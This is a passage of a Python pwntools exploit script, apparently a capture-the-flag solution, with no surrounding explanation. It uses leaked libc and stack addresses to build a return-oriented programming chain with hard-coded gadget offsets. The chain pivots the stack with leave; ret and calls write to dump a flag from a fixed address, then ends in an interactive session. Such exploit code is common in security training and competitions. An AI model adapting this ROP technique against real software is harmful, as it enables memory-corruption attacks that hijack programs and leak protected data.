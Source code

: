 ```python
stack=int(io.recv(14),16)
logv("libc",hex(libc_base))
logv("stack",hex(stack))

write=libc_base+libc.sym["write"]
## gadgets
pop_rdi=libc_base + 0x2a3e5
pop_rsi=libc_base + 0x2be51
pop_rdx=libc_base + 0x11f497  # pop rdx;pop r12;ret
leave_ret=0x401650
## addr 
ROP=0x4016EC
flag=0x4053C0
buf=0x405460

#2 prepare my ROP 
payload=0x20*b"a"+p64(buf)+p64(0x401ed9)
visit_op(3,payload,0)
leave_op(0)

#3 orw  flag
payload = p64(0)+p64(pop_rdi)+p64(2)
payload+= p64(pop_rsi)+p64(flag)
payload+= p64(pop_rdx)+p64(0x64)+p64(0)
payload+= p64(write)
io.sendafter("well,prepare your rop now!",payload)

#4
payload = b"a"*0x10
payload+= p64(buf) 
io.sendafter("Enter your flag: ",b"hhhh")

#5
io.send(payload) 
io.interactive()

```

